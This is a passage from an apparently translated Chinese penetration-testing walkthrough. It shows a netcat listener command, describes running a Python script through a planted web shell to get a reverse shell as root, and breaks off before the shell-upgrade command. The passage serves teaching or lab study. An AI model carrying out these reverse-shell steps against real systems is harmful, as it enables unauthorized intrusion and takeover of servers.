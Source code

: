 图 22 脚本变得可执行— rwx

在我们的脚本被下载后，我们只需要在我们的服务器上设置监听器。

```
$ **nc -lvp <our_port>**
```

然后，尝试通过我们部署的 web shell 在目标服务器上执行 python 脚本:

![](img/d737ce26865306816ac76098c2dacd55.png)

图 23 获得交互式外壳

![](img/76ee5c5e063b4c5612d860654e6d9504.png)

图 24 Shell 作为根用户执行

第一次可以连接到我们的反向外壳，基本上我们还没有一个交互的外壳。所以，我们需要做的就是用 python 运行一个简单的命令:
